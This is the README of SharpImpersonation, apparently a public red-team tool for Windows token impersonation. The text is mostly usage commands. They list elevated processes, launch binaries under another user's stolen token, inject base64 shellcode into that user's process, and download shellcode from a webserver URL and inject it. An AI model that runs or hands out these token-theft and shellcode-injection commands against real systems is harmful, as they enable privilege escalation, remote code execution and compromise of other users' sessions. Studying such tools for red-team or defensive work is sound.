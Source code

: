 # SharpImpersonation

This was a learning by doing project from my side. Well known techniques are used to built *just* another impersonation tool with some improvements in comparison to other public tools. The code base was taken from:

* [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)

A blog post for the intruduction can be found here:

* [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)

List user processes
--------
```
PS > PS C:\temp> SharpImpersonation.exe list
```

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/List.PNG?raw=true)

List only elevated processes
--------
```
PS > PS C:\temp> SharpImpersonation.exe list elevated
```

Impersonate the first process of the target user to start a new binary
--------
```
PS > PS C:\temp> SharpImpersonation.exe user:<user> binary:<binary-Path>
```

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/CreateProcessWithTokenW.PNG?raw=true)

Inject base64 encoded shellcode into the first process of the target user
--------

```
PS > PS C:\temp> SharpImpersonation.exe user:<user> shellcode:<base64shellcode>
```

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/ShellcodeBase64.PNG?raw=true)

Inject shellcode loaded from a webserver into the first process of the target user
--------

```
PS > PS C:\temp> SharpImpersonation.exe user:<user> shellcode:<URL>
```

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/ShellcodeWebDownload.PNG?raw=true)

Impersonate the target user via ImpersonateLoggedOnuser for the current session
--------

```
PS > PS C:\temp> SharpImpersonation.exe user:<user> technique:ImpersonateLoggedOnuser
```

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/ImpersonateLoggedOnUser.png?raw=true)
